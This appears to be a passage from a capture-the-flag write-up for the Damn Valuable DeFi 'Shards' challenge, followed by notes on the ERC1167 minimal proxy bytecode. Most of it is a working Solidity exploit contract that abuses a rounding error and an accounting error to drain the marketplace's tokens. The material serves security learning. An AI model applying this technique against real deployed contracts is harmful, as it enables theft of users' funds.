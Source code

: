 PoC:
```solidity
// test 
function test_shards() public checkSolvedByPlayer {
    ShardsExploiter exploiter = new ShardsExploiter(marketplace, token, recovery);
    exploiter.exploit();
}


// exploit contract
contract ShardsExploiter {
    using FixedPointMathLib for uint256;

    uint256 constant MARKETPLACE_INITIAL_RATE = 75e15;
    uint112 constant NFT_OFFER_PRICE = 1_000_000e6;
    uint112 constant NFT_OFFER_SHARDS = 10_000_000e18;

    ShardsNFTMarketplace _marketplace;
    DamnValuableToken _token;
    address _recovery;

    constructor(ShardsNFTMarketplace marketplace, DamnValuableToken token, address recovery) {
        _marketplace = marketplace;
        _token = token;
        _recovery = recovery;
    }

    function exploit() public {
        // 1. leverage rounding error
        uint256 purchaseIndex = _marketplace.fill(1, 133);
        _marketplace.cancel(1, purchaseIndex);
        
        // 2. leverage accounting error
        uint256 remain_funds = _token.balanceOf(address(_marketplace));
        uint256 want = remain_funds.mulDivDown(1e6, MARKETPLACE_INITIAL_RATE);
        uint256 spending = want.mulDivDown(NFT_OFFER_SHARDS, uint256(NFT_OFFER_PRICE).mulDivDown(MARKETPLACE_INITIAL_RATE, 1e6));
        
        _token.approve(address(_marketplace), spending);
        purchaseIndex = _marketplace.fill(1, want);
        _marketplace.cancel(1, purchaseIndex);

        _token.transfer(_recovery, _token.balanceOf(address(this)));
    }
}
```
#### Learning by doing
ERC1167: Minimal Proxy Contract:
- To simply and cheaply clone contract functionality in an **immutable** way
- Specifies a minimal bytecode implementation that delegates all calls to a known, fixed address. 

Proxy bytecode format:
```
0x3d602d80600a3d3981f3 // initialization code
  + <20-byte implementation address>
  + 5af43d82803e903d91602b57fd5bf3
```
```
0x3d602d80600a3d3981f3 // initialization code
363d3d373d3d3d363d73
<20-byte implementation address>
5af43d82803e903d91602b57fd5bf3
```

